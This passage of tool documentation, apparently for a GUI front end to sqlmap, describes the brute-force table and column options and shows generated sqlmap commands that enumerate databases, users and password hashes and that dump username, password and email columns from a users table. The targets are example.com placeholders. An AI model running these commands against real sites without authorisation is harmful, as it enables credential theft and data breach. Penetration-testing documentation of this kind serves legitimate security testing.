 ### Brute-Force Table Names
**Parameter:** `--common-tables`
**Description:** Brute-force common table names
**Behavior:** Tests common table names like users, admin, config
**Use Cases:**
- Unknown schema discovery
- Common application patterns
- Quick reconnaissance

### Brute-Force Column Names
**Parameter:** `--common-columns`
**Description:** Brute-force common column names
**Behavior:** Tests common column names like id, name, password
**Use Cases:**
- Unknown column discovery
- Standard field identification
- Schema reconstruction

## 📝 Usage Examples

### Basic Database Discovery
```
Enumerate Databases: ✓ Enabled
Enumerate Users: ✓ Enabled
Enumerate Passwords: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --users --passwords
```

### Table Structure Analysis
```
Database: mysql
Enumerate Tables: ✓ Enabled
Enumerate Columns: ✓ Enabled
Table: user
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" -D mysql --tables --columns -T user
```

### Data Extraction
```
Database: app_db
Table: users
Dump Table: ✓ Enabled
Columns: username,password,email
Start from: 1
Stop at: 1000
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/user.php?id=1" -D app_db -T users --dump -C username,password,email --start=1 --stop=1000
```
